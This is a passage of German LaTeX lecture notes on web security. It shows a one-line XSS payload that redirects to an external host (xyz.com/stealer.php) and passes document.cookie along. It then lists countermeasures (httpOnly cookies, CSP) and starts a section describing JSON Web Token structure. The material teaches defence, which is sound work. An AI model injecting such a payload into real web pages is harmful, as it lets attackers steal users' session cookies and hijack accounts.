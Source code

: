 Beispiel für ein einfaches Javascript-Fragment welches ein Redirect auf einen externen Server (xyz.com) durchführt und als GET-Parameter die aktuellen Cookies übergibt:

\begin{verbatim}
<script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
</script>
\end{verbatim}

Folgende Gegenmaßnahmen sollten implementiert werden:

\begin{itemize}
	\item keine XSS-Lücke in der Webseite implementieren\ldots
	\item durch Verwendung des httpOnly-Cookie Flags kann dem Webbrowser mitgeteilt werden, dass der Zugriff mittels Javascript auf das Session Cookie nicht erlaubt ist.
	\item CSP bietet Möglichkeiten XSS-Angriffe einzuschränken.
\end{itemize}

\section{JSON Web Tokens}
\label{jwt}

JSON Web Tokens (JWT) sind standardisierte (RFC 7519) Tokens die als HTTP Parameter, HTTP Session Cookies oder mittels eines HTTP Headers übertragen werden können. Ein JSON Web-Token besteht aus drei Bereichen:

\begin{itemize}
	\item Header: dieser Bereich speichert vor allem den verwendeten Algorithmus zur Erstellung des Integrity Checks.
	\item Content: JSON-Dokument welches die eigentliche Payload des Tokens ist. Es gib hier mehre vordefinierte optionale Werte: \textit{iss} beschreibt den Issuer/Aussteller des Tokens, \textit{sub} beschreibt das Subjekt des tokens, \textit{aud} die geplante Audience (welche Server sollen das Token erhalten, \textit{exp} und \textit{nbf} den Gültigkeitszeitraum des tokens, \textit{iat} den Ausstellungszeitpunkt.
	\item Integrity Check: der integrity check verwendet den, im \textit{alg}-Header definierten Algorithmus über \textit{header} und \textit{content} um eine Checksumme zu bilden.
\end{itemize}

